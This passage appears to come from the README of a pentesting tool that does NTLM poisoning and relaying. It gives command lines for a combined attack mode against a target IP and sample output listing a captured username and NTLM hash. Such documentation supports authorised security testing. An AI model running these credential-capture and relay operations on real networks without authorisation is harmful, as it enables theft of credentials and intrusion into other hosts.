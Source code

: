### 4. Attack Mode (Combined Operations)
Run poisoning and relaying simultaneously for comprehensive testing:

```powershell
# Full attack mode with poisoning and relaying
python src/main.py attack --interface "Ethernet" --target "192.168.1.100"

# With debug mode for detailed logging
python src/main.py attack --interface "Ethernet" --target "192.168.1.100" --debug
```

**What this does:**
- Combines poisoning and relaying in concurrent threads
- Actively triggers authentication via network poisoning
- Simultaneously relays captured credentials to target
- Provides comprehensive attack simulation
- Logs all activities to MongoDB and log files

### 5. List Captured Results
View stored authentication attempts and analysis results:

```powershell
# Display all captured authentication attempts
python src/main.py list

# Example output:
# Captured Authentication Attempts:
# [2024-12-14 10:30:15] Source: 192.168.1.50 -> Target: 192.168.1.100
#   Domain: CORP, Username: alice
#   NTLM Hash: 5e884898da28047151d0e56f8dc6292...
#   Protocol: SMB, Status: Success
```

## Additional Scripts
- `scripts/setup_db.py`: Initialize MongoDB collections.
- `scripts/setup_mongodb.py`: Launch a local MongoDB instance (Docker).
- `scripts/cleanup.py`: Remove logs and temporary data.

## Logging
All tool output is logged to `ntlm_relay.log` and to console. Adjust `config/logging.ini` for verbosity and log destinations.

## Troubleshooting
- Ensure you run commands with administrator/root privileges.
- Confirm dependencies are installed and config files are correct.
- Review `ntlm_relay.log` and `app.log` for errors.

For further details, see the Technical Documentation in `docs/technical.md` and the project README.